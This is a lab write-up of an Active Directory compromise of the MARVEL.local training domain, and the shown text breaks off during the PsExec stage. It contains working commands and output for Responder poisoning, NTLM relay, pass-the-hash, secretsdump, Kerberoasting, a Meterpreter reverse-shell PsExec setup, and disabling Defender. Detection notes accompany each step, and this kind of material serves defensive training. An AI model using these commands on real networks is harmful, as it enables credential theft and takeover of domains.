# MARVEL.local — Full Active Directory Compromise

A detection-focused walkthrough of a four-machine Active Directory lab (TCM Security / PNPT style), taken from unauthenticated on the wire to Domain Admin and a backdoored domain controller.

What makes this more than a standard course walkthrough: every stage records what actually fired on the endpoint, every dead end and tooling error is kept in, and each technique is paired with the blue-team signal and the Windows Event IDs to detect it. Built backwards from detection.

> **⚠️ Lab disclaimer**
> `MARVEL.local` is an intentionally vulnerable training lab. All credentials, NT hashes and the `krbtgt` key shown here belong to a throwaway lab environment and are worthless outside it. This repository is for education and detection-engineering practice only.

**Chain:** recon → LLMNR/NBT-NS poisoning → SMB/NTLM relay → pass-the-hash → secretsdump → Kerberoasting → PsExec (and a Windows Defender fight) → token impersonation → persistence + DCSync, each mapped to its detection.

---

> **📋 Result**
> Started unauthenticated on the network. Responder poisoned name resolution and captured `MARVEL\fcastle`, which cracked to `Password1!`. That authentication was relayed to SPIDERMAN, dumping a local Administrator hash that was reused on every workstation. Pass-the-hash gave local admin across the estate. A PsExec SYSTEM shell on PUNISHER (after a fight with Windows Defender) exposed a cached Domain Admin token, which was stolen with `incognito`. From Domain Admin, a backdoor account was created and the Domain Controller was DCSync'd, including `krbtgt`. Domain fully owned.

---

## Scope and environment

Four machines. One domain. Everything below stays inside this set.

| Host | IP | Role | OS | SMB signing |
|---|---|---|---|---|
| commandBEAST | 192.168.192.129 | Attacker (Kali) | Kali Linux | — |
| HYDER-DC | 192.168.192.151 | Domain Controller | Windows Server 2022 | Required |
| PUNISHER | 192.168.192.152 | Workstation | Windows 10 (22H2, 19045) | Not required |
| SPIDERMAN | 192.168.192.153 | Workstation | Windows 10 (22H2, 19045) | Not required |

**Domain:** `MARVEL.local`
**Primary domain user captured:** `fcastle` (Frank Castle) on PUNISHER
**Second domain user seen:** `pparker` (Peter Parker) on SPIDERMAN

> **📝 Why SMB signing is the whole game**
> Signing is the single control that stops NTLM relay. A signed session cannot be replayed because the relay host cannot forge the signature. HYDER-DC (the DC) has signing **required**, so it resists the relay. Both workstations have signing **not required**, which makes them valid relay targets and, later, valid PsExec targets. This one setting decides most of what follows.

---

## Attack path at a glance




---

## 1. Reconnaissance — SMB signing enumeration

**Objective.** Before any poisoning or relay, build the relay target list. The only hosts worth relaying to are the ones with signing not required.

```bash
nmap -p 445 --script smb2-security-mode 192.168.192.0/24
```

`-p 445` scopes to SMB. The `smb2-security-mode` script is what actually reports the signing state; without it you only learn open/closed/filtered, which tells you nothing about relayability.

```text
Nmap scan report for 192.168.192.151        # HYDER-DC
| smb2-security-mode:
|_    Message signing enabled and required

Nmap scan report for 192.168.192.152        # PUNISHER
| smb2-security-mode:
|_    Message signing enabled but not required

Nmap scan report for 192.168.192.153        # SPIDERMAN
| smb2-security-mode:
|_    Message signing enabled but not required
```

**Relay target list.** Only signing-not-required hosts go into `target.txt`:

```text
192.168.192.152
192.168.192.153
```

The DC is deliberately excluded. Relaying to it fails at the write stage with a signing error, which is exactly what shows up later.

> **💡 Detection**
> Nothing on the wire from a `-p 445` script scan looks like much on its own, but a single host sweeping 445 across the whole subnet in seconds is the opening move. Baseline SMB connection rates per source and alert on fan-out.

MITRE: `T1046` (Network Service Discovery).

---

## 2. Initial Access — LLMNR / NBT-NS poisoning (Responder)

**Theory.** LLMNR and NBT-NS are the fallback name-resolution protocols Windows uses when DNS fails. The machine broadcasts "who is X?" and trusts whatever answers. Responder answers everything, the victim tries to authenticate, and Responder captures the NTLMv2 challenge-response.

### Two modes, and why you pick one

You cannot capture and relay at the same time. Both ntlmrelayx and Responder's own SMB server want port 445.

- **Capture mode** — Responder's SMB/HTTP servers **ON**. Use this to grab NTLMv2 hashes for offline cracking.
- **Relay mode** — Responder's SMB/HTTP servers **OFF**, ntlmrelayx handles 445. Use this to replay authentications live.

```bash
sudo responder -I eth0 -dwv
```

Config confirms poisoners live and the capture surface:

```text
[+] Poisoners:   LLMNR [ON]  NBT-NS [ON]  MDNS [ON]  DNS [ON]  DHCP [ON]
[+] Servers:     HTTP [ON]  SMB [ON]  ...      # capture mode
[+] Generic Options:
    Responder NIC   [eth0]
    Responder IP    [192.168.192.129]
    Challenge set   [random]
```

`Challenge set: random` is correct for real capture — a fixed challenge would weaken the hash against rainbow tables.

### Capture

PUNISHER tried to resolve names that failed DNS; Responder answered and captured `MARVEL\fcastle`:

```text
[*] [MDNS] Poisoned answer sent to 192.168.192.152 for name PUNISHER.local
[*] [NBT-NS] Poisoned answer sent to 192.168.192.152 for name MARVEL (service: Domain Master Browser)
[SMB] NTLMv2-SSP Client   : 192.168.192.152
[SMB] NTLMv2-SSP Username : MARVEL\fcastle
[SMB] NTLMv2-SSP Hash     : fcastle::MARVEL:6f8b23f11cdc7b50:089B787CC397EC40B0...<snip>
```



### Crack

```bash
hashcat -m 5600 fcastle_hash.txt /usr/share/wordlists/rockyou.txt
```

`-m 5600` is NTLMv2. Cracks to:

```text
fcastle : Password1!
```

> **💡 Detection**
> A host answering name queries for names it does not own is the signal. Inject a honey-name lookup for a hostname that does not exist; anything that answers is a poisoner. Long-term fix: disable LLMNR and NBT-NS by GPO.

MITRE: `T1557.001` (LLMNR/NBT-NS Poisoning and Relay).

---

## 3. SMB / NTLM Relay (ntlmrelayx)

**Theory.** Relay skips cracking entirely. Instead of capturing fcastle's authentication and breaking it offline, you forward it mid-flight to a different host. The target sees a valid admin-level authentication from a legitimate domain user and opens up. You never learn the password.

### Pre-flight: free up the ports

Responder and ntlmrelayx both want 445. Starting ntlmrelayx while Responder still owns SMB/HTTP throws:

```text
OSError: [Errno 98] Address already in use
```

Check who holds the ports before launching:

```bash
sudo ss -tlnp | grep -E ':(80|135|445|5985)'
```

```text
LISTEN 0 5  0.0.0.0:445  users:(("python3",pid=15454,fd=4))
LISTEN 0 5  0.0.0.0:80   users:(("python3",pid=15454,fd=5))
```

> **❌ Errno 98 on launch**
> If ntlmrelayx throws `Address already in use` on its WinRM/RPC/HTTPS server threads, Responder is still running with SMB/HTTP on, or a previous ntlmrelayx instance did not die cleanly. Set `SMB = Off` and `HTTP = Off` in `/etc/responder/Responder.conf`, kill stale python processes, and relaunch. The RPC (135) and WinRM (5985) thread tracebacks are non-fatal — the SMB relay still works even when those secondary servers fail to bind.

### Relay and dump SAM

```bash
impacket-ntlmrelayx -tf target.txt -smb2support
```

```text
[*] (SMB): Connection from MARVEL/FCASTLE@192.168.192.152 controlled, attacking target smb://192.168.192.151
[-] Signing is required, attack won't work unless using -remove-target / --remove-mic
[*] ... against smb://192.168.192.151 SUCCEED [1]
[-] smb://MARVEL/FCASTLE@192.168.192.151 [1] -> SMB SessionError: STATUS_ACCESS_DENIED
[*] ... against smb://192.168.192.153 SUCCEED [2]
[*] smb://...@192.168.192.153 [2] -> Service RemoteRegistry is disabled, enabling it
[*] smb://...@192.168.192.153 [2] -> Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] smb://...@192.168.192.153 [2] -> Restoring the disabled state for service RemoteRegistry
```

Two outcomes, both informative:
- **HYDER-DC (.151)** — authentication succeeded (fcastle's creds are valid against the DC) but the SAM dump failed with `STATUS_ACCESS_DENIED`. Signing is required on the DC and fcastle is not a domain admin.
- **SPIDERMAN (.153)** — relay succeeded, RemoteRegistry was auto-enabled, SAM dumped, and the service state restored. Local Administrator NT hash recovered: `7facdc498ed1680c4fd1448319a8c04f`.



### Interactive and command modes

```bash
impacket-ntlmrelayx -tf target.txt -smb2support -i    # interactive SMB client shell
```

```text
[*] smb://...@192.168.192.151 [1] -> Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] smb://...@192.168.192.153 [2] -> Started interactive SMB client shell via TCP on 127.0.0.1:11001
```

Connect with netcat and you get a full impacket SMB client as fcastle:

```bash
nc 127.0.0.1 11000
# shares / use C$ / ls / get <file>
```

> **❌ -C vs -c**
> ```text
> impacket-ntlmrelayx -tf target.txt -smb2support -C 'whoami'
> ntlmrelayx.py: error: unrecognized arguments: -C whoami
> ```
> The command-execution flag is lowercase `-c`. Uppercase `-C` is not a valid argument. Even with lowercase `-c 'whoami'`, output retrieval failed with `STATUS_OBJECT_NAME_NOT_FOUND` — the temp output file on ADMIN$ was cleaned up before it could be read back. The command still executed on the target; only the retrieval failed.

> **💡 Detection**
> Relay shows up as authentication from host A (PUNISHER) arriving at host B (SPIDERMAN) that A never initiated, plus RemoteRegistry flipping disabled → running → disabled on the target (7036 / 7045) and a 4624 Type 3 NTLM logon from an unexpected source.

MITRE: `T1557.001`, `T1021.002` (SMB/Admin Shares).

---

## 4. Credential Access — Pass-the-Hash spray (CrackMapExec / NetExec)

**Objective.** The relay gave one local Administrator hash. If that password is reused, the hash alone owns every workstation that shares it. No cracking required.

> **❌ crackmapexec is not installed by default**
> ```text
> impacket-crackmapexec
> impacket-crackmapexec: command not found
>
> sudo apt install crackmapexec
> Installing dependencies: python3-lsassy  python3-masky  python3-pywerview
> ```
> CME is not a built-in impacket tool and is not present on a fresh install. `apt install crackmapexec` pulls lsassy/masky/pywerview and throws a pile of `SyntaxWarning: invalid escape sequence` lines on first run — those are harmless Python 3.12+ warnings, not errors. NetExec (`nxc`/`netexec`) is the maintained successor and installs the same way (`apt install netexec`).

> **❌ Same class of problem: wrong package name**
> The impacket tools are not installed by guessing the package name either.
> ```text
> sudo apt install secretsdump
> Unable to locate package secretsdump
> impacket --version
> impacket: command not found
> ```
> There is no `secretsdump` or `impacket` package. The binaries ship as `python3-impacket` and are invoked per-tool (`impacket-secretsdump`, `impacket-ntlmrelayx`, `impacket-GetUserSPNs`). Tab-complete `impacket-` to see the full set.



### Spray the hash

```bash
crackmapexec smb 192.168.192.0/24 -u administrator \
  -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f \
  --local-auth --shares
```

`--local-auth` is critical when spraying a local SAM hash. Without it CME authenticates against the domain, which has no knowledge of a machine's local account, and every host returns a failure.

```text
SMB  192.168.192.153  445  SPIDERMAN  [+] SPIDERMAN\administrator:7facdc...  (Pwn3d!)
SMB  192.168.192.152  445  PUNISHER   [+] PUNISHER\administrator:7facdc...   (Pwn3d!)
SMB  192.168.192.151  445  HYDER-DC   [-] HYDER-DC\administrator:7facdc...   STATUS_LOGON_FAILURE
SMB  SPIDERMAN  ADMIN$  READ,WRITE
SMB  SPIDERMAN  C$      READ,WRITE
SMB  PUNISHER   ADMIN$  READ,WRITE
SMB  PUNISHER   C$      READ,WRITE
```



Both workstations return `Pwn3d!` with full read/write on ADMIN$ and C$. The DC rejects the hash because its "administrator" is the domain account, not a local SAM entry — a different hash entirely.

### LSA / cached credentials

```bash
crackmapexec smb 192.168.192.0/24 -u administrator \
  -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f \
  --local-auth --lsa
```

LSA secrets yield the DCC2 (mscash2) cached logons for the domain accounts that have signed in locally:

```text
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c
MARVEL.LOCAL/fcastle:$DCC2$10240#fcastle#0e22c6b600daf876d0febe5579169025
MARVEL.LOCAL/pparker:$DCC2$10240#pparker#a6c00b4513d840b85703db0e8edf9b16
```

DCC2 cannot be passed (it is salted with the username), but it cracks offline with `hashcat -m 2100`.

> **💡 Detection**
> One source host authenticating to many machines over SMB with NTLM (4624 Type 3) inside a short window, especially against local accounts, is the pass-the-hash spray signature. Nobody should be remotely enabling RemoteRegistry across the workstation fleet.

MITRE: `T1550.002` (Pass the Hash), `T1003.004` (LSA Secrets), `T1003.005` (Cached Domain Credentials).

---

## 5. Credentialed enumeration — secretsdump

**Objective.** Confirm how far the one credential reaches and prove the reuse pattern directly.

```bash
# PUNISHER (.152) as the domain user
impacket-secretsdump MARVEL.local/fcastle:'Password1!'@192.168.192.152

# SPIDERMAN (.153) as the domain user
impacket-secretsdump MARVEL.local/fcastle:'Password1!'@192.168.192.153

# Pass-the-hash as the LOCAL Administrator back into .153 (no password needed)
impacket-secretsdump administrator:@192.168.192.153 \
  -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```

```text
# PUNISHER SAM
Administrator:500:...:7facdc498ed1680c4fd1448319a8c04f:::
frankcastle:1001:...:64f12cddaa88057e06a81b54e73b949b:::

# SPIDERMAN SAM
Administrator:500:...:7facdc498ed1680c4fd1448319a8c04f:::
peterparker:1001:...:64f12cddaa88057e06a81b54e73b949b:::
```

> **🛑 The hash that unlocks everything**
> `7facdc498ed1680c4fd1448319a8c04f` is the local Administrator hash on **both** workstations, and it is the same NT hash as domain `fcastle` and domain `pparker`. One credential = local admin everywhere, by pass-the-hash, before Active Directory is even touched. `frankcastle` and `peterparker` also share a single NT hash (`64f12c...`), meaning they share a password.



Two hashes cover the whole workstation estate. The first is local admin everywhere by pass-the-hash; the second is a shared user password. Neither needed cracking.

> **📝 Dump early, read the hashes against each other**
> The reuse finding is worth more than any single exploit. It made every later step cheaper: there was never a need to crack the local Administrator password because the hash itself authenticates everywhere.

MITRE: `T1003.002` (SAM), `T1003.004`, `T1003.005`.

---

## 6. Kerberoasting — SQLService (valid finding, dead branch)

**Theory.** Any authenticated domain user can request a service ticket (TGS) for an account that has an SPN. Part of that ticket is encrypted with the service account's password hash — request it, extract it, crack it offline.

```bash
sudo impacket-GetUserSPNs MARVEL.local/fcastle:Password1! -dc-ip 192.168.192.151 -request
hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt
```

```text
$krb5tgs$23$*SQLService$MARVEL.LOCAL$...   -->  MYpassword123#
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Time.Estimated...: 16 secs
```

`$krb5tgs$23$` means etype 23 (RC4), which is hashcat mode **13100**. RC4 service tickets crack fast because the key is the raw NT hash of the service password.

> **❌ hash-identifier on a TGS blob**
> `hash-identifier` returns "Not Found" for `$krb5tgs$` strings — it does not fingerprint Kerberos blobs. Read the prefix yourself: `$krb5tgs$23$` is mode 13100. Skip the identifier.

> **⚠️ This branch went nowhere**
> `MYpassword123#` was cracked and then never used. Domain Admin came from token impersonation (section 8), not from SQLService. It is a legitimate standalone finding — a service account with an SPN, RC4 enabled, and a weak password — but it was not load-bearing for this compromise. Stated plainly rather than dressed up as an escalation path.

> **💡 Detection**
> 4769 (TGS request) with encryption type `0x17` (RC4) for a service account, especially one account requesting many SPN tickets in a short window. Fix the root cause: 25+ character random passwords or gMSA, and force AES to close the RC4 roast path.

MITRE: `T1558.003` (Kerberoasting).

---

## 7. Foothold — PsExec to SYSTEM on PUNISHER

**Theory.** fcastle is local admin on PUNISHER and SMB signing is off, so `exploit/windows/smb/psexec` is the clean route to code execution. The module writes a payload to ADMIN$, registers a service to run it, and returns a Meterpreter session. The theory is simple. Getting it to fire took two sessions, a fight with Defender, and a pile of self-inflicted credential mistakes.

```text
msfconsole
search psexec
use 24                                  # exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.192.129               # commandBEAST
set smbuser fcastle
set smbpass Password1!
set smbdomain MARVEL.local
set rhosts 192.168.192.152              # PUNISHER
run
```

### Dead ends (kept on purpose)

> **❌ Everything that went wrong first**
> - **RHOST set to `192.168.192.129`** — that is commandBEAST itself. `Rex::ConnectionRefused`. The exploit was pointed at the attacker's own box.
> - **`set smbpass Password1`** (no `!`) — `STATUS_LOGON_FAILURE (0xc000006d)`.
> - **`set smbuser administrator` / `Administrator`** — logon failure, wrong account for this box.
> - **`set smbuser "Frank Castle"`** (display name, with a space) — logon failure. The logon name is `fcastle`.
> - **`set smbpass P@$$w0rd!` / `Password123#`** — guesses, logon failures.
>
> Read the two failure codes differently:
> - `STATUS_LOGON_FAILURE (0xc000006d)` = the credential is wrong. Fix the username/password.
> - `Service failed to start - ACCESS_DENIED` = the credential is **right**, but the service/payload was blocked on the target. That points at the target host, not your creds — here, Defender.



### The Defender fight

With correct `fcastle:Password1!`, PsExec still returned `ACCESS_DENIED` on service start. The reason is on the target: Defender flagged the Meterpreter service binary as `Trojan:Win32/Commando.A!ml` and quarantined it.



> **🛑 A Disable-Defender GPO is not the same as Defender being off**
> A "Disable Windows Defender" GPO existed and was linked to `MARVEL.local`, and RSOP confirmed it applied to PUNISHER. It still was not enough. On **Windows 10 22H2**, the client re-armed real-time protection on its own timer (every few minutes) in the background, independent of the GPO. Each time it flipped back on, it caught the payload again and PsExec failed with `ACCESS_DENIED`. The GPO did not hold it down.
>
> The fix was to disable protection **on the client machine directly** — real-time protection and threat protection — and run PsExec inside the window before the client re-enabled it.

